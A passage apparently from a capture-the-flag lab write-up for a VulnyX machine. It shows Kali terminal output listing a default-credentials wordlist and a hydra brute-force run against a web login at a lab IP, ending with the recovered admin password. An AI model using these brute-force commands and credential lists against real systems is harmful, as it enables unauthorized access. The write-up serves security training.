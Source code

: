 **Login Brute Forcing**

```
┌──(nabla㉿kali)-[~]
└─$ head /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt

anonymous:anonymous
root:rootpasswd
root:12hrs37
ftp:b1uRR3
admin:admin
localadmin:localadmin
admin:1234
apc:apc
admin:nas
Root:wago

┌──(nabla㉿kali)-[~]
└─$ hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 192.168.247.225 http-get -s 80 /cards.php -t 50

[SNIP]

[80][http-get] host: 192.168.247.225   login: admin   password: admin12345
```

```javascript
admin:admin12345
```

![Firefox - Card Manager Page](./assets/screenshots/vulnyx_gattaca_firefox_card_manager_page.png)
